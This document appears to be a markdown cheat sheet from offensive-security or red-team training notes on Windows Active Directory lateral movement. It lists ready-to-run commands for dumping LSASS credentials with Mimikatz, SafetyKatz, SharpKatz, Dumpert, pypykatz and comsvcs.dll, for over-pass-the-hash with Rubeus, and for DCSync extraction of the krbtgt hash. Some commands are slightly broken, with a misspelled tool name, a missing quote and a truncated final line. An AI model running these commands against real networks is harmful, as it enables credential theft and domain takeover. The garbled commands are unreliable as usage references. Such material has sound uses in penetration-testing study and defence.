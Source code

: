 # Lateral Movement - Mimikatz / PtH / DCSync

- [Lateral Movement - Mimikatz / PtH / DCSync](#lateral-movement---mimikatz--pth--dcsync)
  - [Mimikatz](#mimikatz)
  - [Extracting credential from LSASS](#extracting-credential-from-lsass)
  - [Over Pass-the-hash](#over-pass-the-hash)
  - [DCSync](#dcsync)

---

## Mimikatz 

Mimikatz can be used to dump credentials, tickets, and many more interesting attacks.

`Invoke-Mimikatz` is a PowerShell version of Mimikatz. Using the code from **ReflectivePEInjection**, mimikatz is loaded reflectively into the memory, and all functions of mimikatz could be used from this script.

Note both `Mimikatz.exe` and `Invoke-Mimikatz.ps1` have to be run in **Admin Privilege** for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack.

Note:
- http://github.com/gentilkiwi/mimikatz
- http://adsecurity.org/?p=2207

<br/>

---

## Extracting credential from LSASS

**Dump credential on a local machine using Mimikatz**

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

<br/>

**SafetyKatz**

- Minidump of lsass and PELoader to run Mimikatz

```
SafetyKatz.exe "sekurlsa::ekeys"
```

<br/>

**Dump credentials using SharpKatz**

- C# port of some of Mimikatz functionality

```
SharpKatz.exe --Command eKeys
```

<br/>

**Dump credentials using Dumpert**

- Direct system calls and API unhooking

```
rundll32.exe C:\Dumpert\Outflack-Dumpert.dll,DUMP
```

<br/>

Note:
- https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1
- https://github.com/b4rtik/SharpKatz
- https://github.com/outflanknl/Dumpert
- https://github.com/Flangvik/BetterSafetyKatz
- https://github.com/GhostPack/SafetyKatz

<br/>

**Using pypykatz**

- Mimikatz functionality in Python

```
pypykatz.exe live lsa
```

<br/>

**Using comsvcs.dll**

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass PID> C:\Users\Public\lsass.dump full
```

<br/>

Also:

- Linux attacking AD - use `impacket` / `Physmem2profit`

<br/>

Note:
- https://github.com/skelsec/pypykatz
- https://github.com/Hackndo/lsassy
- https://github.com/SecureAuthCorp/impacket/
- https://github.com/FSecureLABS/physmem2profit

<br/>

---

## Over Pass-the-hash

**Over Pass-the-Hash (OPTH)** generate tokens from hashes or keys. To perform, you need a elevated prompt (admin privs):

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe
```

```
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

Note:
The above commands starts a PS / CMD session with a **logon type 9** (same as `runas /netonly`).
More about logon event:
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787567(v=ws.10)

<br/>

The command below doesn't need elevation:

```
Rubeus.exe asktgt /user:administrator /rc4:<ntlm> /ptt
```

<br/>

The command below needs elevation:

```
Rebeus.exe asktgt /user:administrator /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

- https://github.com/GhostPack/Rubeus/

---

## DCSync

To extract credentials from the DC without code execution on the DC, we can use **DCSync**. Note by default, **Domain **Privilege**** are required to run DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with Domain Admin privileges for the `us` domain:

- Mimikatzs:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

- SafetyKatz

```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "trust.
```

<br/>

----